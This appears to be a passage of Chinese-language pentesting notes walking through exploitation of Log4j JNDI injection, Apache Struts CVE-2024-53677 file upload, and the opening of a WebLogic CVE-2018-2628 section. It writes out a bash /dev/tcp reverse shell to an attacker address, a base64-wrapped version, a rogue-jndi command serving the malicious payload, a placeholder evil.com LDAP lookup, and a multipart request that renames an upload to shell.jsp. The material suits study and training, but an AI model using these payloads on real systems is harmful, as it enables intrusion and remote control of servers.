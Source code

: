我们不能像fastjson触发JNDI查询一样，直接使用`[协议]://[服务器地址]:[端口]/[资源路径]`比如`ldap(rmi)://evil.com/exploit`，因为在log4j中，需要解析 `${...}` 表达式，才能触发查询。

（`${}`是一个变量插值写法，log4j会自动尝试解析）

为了提供JNDI查询服务返回恶意类，我们需要搭建恶意的RMI/LDAP服务器。有很多工具可以使用，比如`rogue-jndi`

我们要返回的恶意类执行的代码最简单就是反弹shell，经典指令是：

```
bash -i >& /dev/tcp/{Your IP Address}/{A port of your choice} 0>&1
```

为了特殊字符被Java运行时、Bash或中间的网络设备错误地解析，导致命令执行失败，我们需要进行base64编码。这和JAVA反序列化中的命令执行情况是一样的，比如`java.lang.RunTime.exec()`,编码后指令如下：

```
bash -c {echo,BASE64 STRING HERE}|{base64,-d}|{bash,-i}
```

因此可以使用`roguejndi`如下搭建恶意服务器:

```
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64 STRING HERE}|{base64,-d}|{bash,-i}" --hostname "{YOUR TUN0 IP ADDRESS}"
```

触发后就能在监听的端口上拿到shell

# Apache Struts文件上传漏洞（CVE-2024-53677）

Apache Struts是美国阿帕奇（Apache）基金会的一个开源项目，是一套用于创建企业级Java Web应用的开源MVC框架。本质上是**OGNL表达式注入**，Struts2 框架的核心机制之一就是 **“将 HTTP 请求参数自动绑定到 Action 对象的属性”**。这个机制是由 OGNL 驱动的。struts2会自动提取HTTP请求中的参数作为OGNL 表达式执行：

```
POST /upload.action HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary
----WebKitFormBoundary
Content-Disposition: form-data; name="Upload"; filename="1.txt"
Content-Type: text/plain
example text
----WebKitFormBoundary
content-Disposition: form-data; name="top.UploadFileName"
shell.jsp
----WebKitFormBoundary--
```

这里就是通过top访问栈，修改了最后的Action类的上传文件名字

# WebLogic漏洞（CVE-2018-2628）

这里主要讲CVE-2018-2628，也就是WebLogic的T3协议反序列化漏洞。T3协议是weblogic独有的实现RMI的协议，它本质上可以看作JRMP协议的增强。它会自动反序列化，且存在反序列化漏洞。

weblogic的端口是7001，我们可以--script查看是否启用T3协议
